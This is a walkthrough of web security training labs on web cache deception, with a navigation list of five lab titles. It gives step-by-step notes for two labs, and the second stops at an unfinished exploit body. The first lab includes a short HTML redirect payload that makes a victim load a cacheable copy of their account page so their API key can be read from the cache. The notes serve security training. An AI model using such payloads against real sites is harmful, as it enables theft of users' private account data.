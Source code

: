 # Navigation
- [Exploiting path mapping for web cache deception](#exploiting-path-mapping-for-web-cache-deception)
- [Exploiting path delimiters for web cache deception](#exploiting-path-delimiters-for-web-cache-deception)
- [Exploiting origin server normalisation for web cache deception](#exploiting-origin-server-normalisation-for-web-cache-deception)
- [Exploiting cache server normalisation for web cache deception](#exploiting-cache-server-normalisation-for-web-cache-deception)
- [Exploiting exact-match cache rules for web cache deception](#exploiting-exact-match-cache-rules-for-web-cache-deception)
# Exploiting path mapping for web cache deception
- Find API key for user `carlos`
- Credentials: `wiener:peter`
1. Authenticate with credentials
2. Use [Web Cache Deception Scanner](https://portswigger.net/bappstore/7c1ca94a61474d9e897d307c858d52f0) on the `/my-account` page to scan for web cache misconfigurations
	1. Sitemap > `/my-account` > Right-click > Extensions > Web Cache Deception Scanner > Web Cache Deception Test
3. Scanner tells us there is a misconfiguration
4. Check the Logger tab and see that `.svg` extensions as well as others are being cached by the server
	1. We see `X-Cache: hit` when the exact same URL `/my-account/test.svg` is requested for the second time in the Logger tab
5. Construct a malicious HTTP site to make the victim visit their account page with a URL that will be cached
```html
<html>
<head></head>
<body>
<script type="text/javascript">
document.location = "https://0a960088041809d48282f61c0022001e.web-security-academy.net/my-account/pwn.svg";
</script>
</body>
</html>
```
6. Store > Deliver exploit to victim
7. In Repeater tab, navigate to `/my-account/pwn.svg`
8. We see we have a `X-Cache: hit` and that Carlos' API key is in the HTTP response
9. Submit solution
- **Note:** The same issue can be found using Burp scanner audit item "Web cache deception"
# Exploiting path delimiters for web cache deception
- Find API key for user `carlos`
- Credentials: `wiener:peter`
1. Authenticate with credentials
2. Send `/my-account` request to repeater
3. Submitting request returns account page
4. Add arbitrary string to URL `/my-accountaaa`
	1. Returns 404
5. Place delimiter in URL `/my-account;aaa`
	1. Returns 200 and our user information again
6. Place static file extension in URL `/my-account;aaa.js`
	1. Returns 200 and `X-Cache: miss` in response header
	2. Submit again
	3. Returns 200 and `X-Cache: hit` in response header
7. Exploit server > Create exploit body:
```html
<html>
```